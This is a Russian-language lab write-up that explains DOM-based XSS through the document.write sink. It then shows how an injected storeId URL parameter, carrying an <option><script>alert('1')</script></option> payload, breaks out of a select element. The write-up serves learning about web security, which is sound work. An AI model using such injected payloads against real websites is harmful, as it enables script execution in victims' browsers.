



# DOM XSS in document.write sink using source location.search inside a select element

## Theory

<h3>Использование DOM XSS с различными источниками и приемниками</h3>

В принципе, веб-сайт уязвим для межсайтовых сценариев на основе DOM, если существует исполняемый путь, по которому данные могут распространяться от источника к приемнику. На практике разные источники и приемники имеют разные свойства и поведение, которые могут повлиять на возможность использования и определить, какие методы необходимы. Кроме того, сценарии веб-сайта могут выполнять проверку или другую обработку данных, которые необходимо учитывать при попытке использовать уязвимость. Существует множество приемников, которые относятся к уязвимостям на основе DOM. 

Приемник document.write работает с элементами скрипта, поэтому вы можете использовать простую полезную нагрузку:
```
document.write('... <script>alert(document.domain)</script> ...');
```

Однако, что в некоторых ситуациях содержимое, записываемое в document.write, включает в себя некоторый окружающий контекст, который необходимо учитывать при использовании эксплойта. Например, вам может потребоваться закрыть некоторые существующие элементы, прежде чем использовать полезную нагрузку JavaScript.

## Writeup

Главная страница:


Перейдем на страницу одного из продуктов.


Исследуя страницу мы можем обнаружить следующий код:



При помощи storeID мы можем добавить еще один элемент:
```
/product?productId=1&storeId=test
```



Для того чтобы вызывать alert, мы пропишем скрипт для кнопки:
```
product?productId=1&storeId=test<option><script>alert('1')</script></option>
```



Получаем ответ от сервера.

